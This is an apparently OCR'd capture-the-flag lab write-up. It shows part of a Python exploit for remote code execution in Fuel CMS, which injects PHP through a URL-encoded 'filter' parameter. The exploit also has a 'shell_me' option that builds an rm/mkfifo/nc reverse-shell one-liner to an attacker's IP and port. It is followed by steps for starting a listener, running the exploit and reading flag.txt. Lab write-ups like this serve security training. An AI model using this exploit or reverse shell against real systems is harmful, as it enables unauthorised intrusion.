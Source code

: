 if cmd\[0:8] == "shell\_me":

IP2, PORT = input(col.LIGHT\_BLUE + "Enter your attacking machine IP:PORT $ " + col.RESET).split(":")

nc = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {IP2} {PORT} >/tmp/f"

cmd = nc

print(col.LIGHT\_GREEN + "\nHope you had your listener ready!!" + col.RESET)

if cmd\[0:4] == "help":

print(help())

continue

if not "/tmp/f;mkfifo" in cmd:

print(col.LIGHT\_GRAY + "Sending request." + col.RESET)

cmd = urllib.parse.quote(cmd)

r = requests.get(f"http://{IP}/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27"+ cmd +"%27)%2B%27")

if r.status\_code == 200:

page = parsePage(r.text)

if page == "\n":

print(col.RED + "No result" + col.RESET)

continue

print(col.LIGHT\_GREEN+ f"\n{page.strip()}" + col.RESET)

except Exception as e:

print(col.RED + f"An error occurred, please try again...\n\n{e}" + col.RESET)

* Created listener to catch reverse shell.

nc -nlvp 8081

* Executed exploit against IP address.

python3 /usr/share/exploits/vulnerabilitiescapstone/exploit.py 10.10.69.70

* Used shell\_me option to enter attacking machine IP and port.

fuelCMS$ shell\_me

Enter your attacking machine IP:PORT $ 10.10.242.103:8081

* Reverse shell connected.

1. What is the value of the flag located on this vulnerable machine?
   * This is located in /home/ubuntu on the vulnerable machine.
     * Used ls to identify flag.txt in /home/ubuntu and opened txt file using cat to recover flag.
